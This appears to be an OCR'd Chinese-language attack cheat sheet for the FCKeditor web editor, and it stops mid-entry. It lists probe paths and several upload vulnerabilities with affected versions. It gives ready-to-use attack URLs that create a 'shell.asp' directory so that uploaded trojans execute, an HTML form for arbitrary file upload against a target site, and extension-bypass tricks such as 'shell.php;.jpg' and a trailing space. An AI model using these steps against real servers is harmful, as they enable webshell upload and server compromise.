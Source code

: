  #### FCKeditor
	版本
	FCKeditor/_whatsnew.html
	编辑器
	FCKeditor/_samples/default.html
	FCKeditor/_samples/default.html
	FCKeditor/_samples/asp/sample01.asp
	FCKeditor/_samples/asp/sample02.asp
	FCKeditor/_samples/asp/sample03.asp
	FCKeditor/_samples/asp/sample04.asp
	fckeditor/editor/filemanager/connectors/test.html
	上传
	FCKeditor/editor/filemanager/upload/test.html
	FCKeditor/editor/filemanager/browser/default/connectors/test.html
	FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector
	FCKeditor/editor/filemanager/connectors/test.html
	FCKeditor/editor/filemanager/connectors/uploadtest.html
	上传路径
	FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
	FCKeditor被动限制策略所导致的过滤不严问题
	影响版本: FCKeditor x.x <= FCKeditor v2.4.3
	脆弱描述：FCKeditor v2.4.3中File类别默认拒绝上传类型：html|htm|php|php2|php3|php4|php5|phtml|pwml|inc|asp|aspx|ascx|jsp|cfm|cfc|pl|bat|exe|com|dll|vbs|js|reg|cgi|htaccess|asis|sh|shtml|shtm|phtmFckeditor 2.0 <= 2.2允许上传asa、cer、php2、php4、inc、pwml、pht后缀的文件
	上传后 它保存的文件直接用的$sFilePath = $sServerDir . $sFileName，而没有使用$sExtension为后缀。直接导致在win下在上传文件后面加个.来突破[未测试]。而在apache下，因为”Apache文件名解析缺陷漏洞”也可以利用之，详见”附录A”另建议其他上传漏洞中定义TYPE变量时使用File类别来上传文件,根据FCKeditor的代码，其限制最为狭隘。攻击利用:
	允许其他任何后缀上传
	利用2003路径解析漏洞上传木马
	影响版本: 索引底部附录B
	脆弱描述：
	利用2003系统路径解析漏洞的原理，创建类似bin.asp如此一般的目录，再在此目录中上传文件即可被脚本解释器以相应脚本权限执行。
	攻击利用:
	fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
	强制建立shell.asp目录：
	FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
	or
	FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp
	FCKeditor PHP上传任意文件漏洞
	影响版本: FCKeditor 2.2 <= FCKeditor 2.4.2
	脆弱描述：FCKeditor在处理文件上传时存在输入验证错误，远程攻击可以利用此漏洞上传任意文件。在通过editor/filemanager/upload/php/upload.php上传文件时攻击者可以通过为Type参数定义无效的值导致上传任意脚本。
	成功攻击要求config.php配置文件中启用文件上传，而默认是禁用的。攻击利用: (请修改action字段为指定网址)：
	<form id="frmUpload" enctype="multipart/form-data" action="http://www.xxxx.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">Upload a new file:<br>
	<input type="file" name="NewFile" size="50"><br>
	<input id="btnUpload" type="submit" value="Upload">
	</form>
	Note:如想尝试v2.2版漏洞，则修改Type=任意值 即可，但注意，如果换回使用Media则必须大写首字母M,否则LINUX下，FCKeditor会对文件目录进行文件名校验，不会上传成功的。
	FCKeditor 暴路径漏洞
	影响版本：aspx版FCKeditor
	攻击利用：
	FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/1.asp
	FCKeditor 文件上传“.”变“_”下划线的绕过方法
	影响版本: FCKeditor => 2.4.x
	脆弱描述：我们上传的文件例如：shell.php.rar或shell.php;.jpg会变为shell_php;.jpg这是新版FCK的变化。攻击利用:
	提交1.php+空格 就可以绕过去所有的,
